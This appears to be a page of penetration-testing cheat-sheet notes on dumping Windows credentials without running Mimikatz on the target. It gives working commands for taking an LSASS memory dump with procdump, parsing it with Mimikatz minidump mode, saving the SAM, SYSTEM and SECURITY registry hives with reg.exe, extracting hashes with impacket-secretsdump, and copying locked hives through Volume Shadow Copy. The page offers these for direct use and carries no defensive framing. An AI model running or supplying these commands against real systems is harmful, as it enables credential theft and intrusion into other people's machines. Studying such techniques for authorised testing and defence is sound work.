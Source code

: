 
Plaintext

# Dumping secrets without Mimikatz

We can also parse system secrets without using Mimikatz on the target system directly.

## Dumping LSASS

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly  
.\procdump.exe -r -ma lsass.exe lsass.dmp

PowerShell

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to ‘Minidump’ mode to parse the file as follows. After this, we can run Mimikatz’ credential retrieval commands as usual.

sekurlsa::minidump lsass.dmp

Plaintext

## Dumping secrets from the registry

We can dump secrets from the registry and parse the files “offline” to get a list of system secrets. 🚩

On the target, we run the following:

reg.exe save hklm\sam c:\users\public\downloads\sam.save  
reg.exe save hklm\system c:\users\public\downloads\system.save  
reg.exe save hklm\security c:\users\public\downloads\security.save

PowerShell

Then on our attacking box we can dump the secrets with Impacket:

impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL > secrets.out

Bash

## Dumping secrets from a Volume Shadow Copy

We can also create a “Volume Shadow Copy” of the `SAM` and `SYSTEM` files (which are always locked on the current system), so we can still copy them over to our local system. An elevated prompt is required for this.

wmic shadowcopy call create Volume='C:\'  
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\public\sam.save  
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\public\system.save
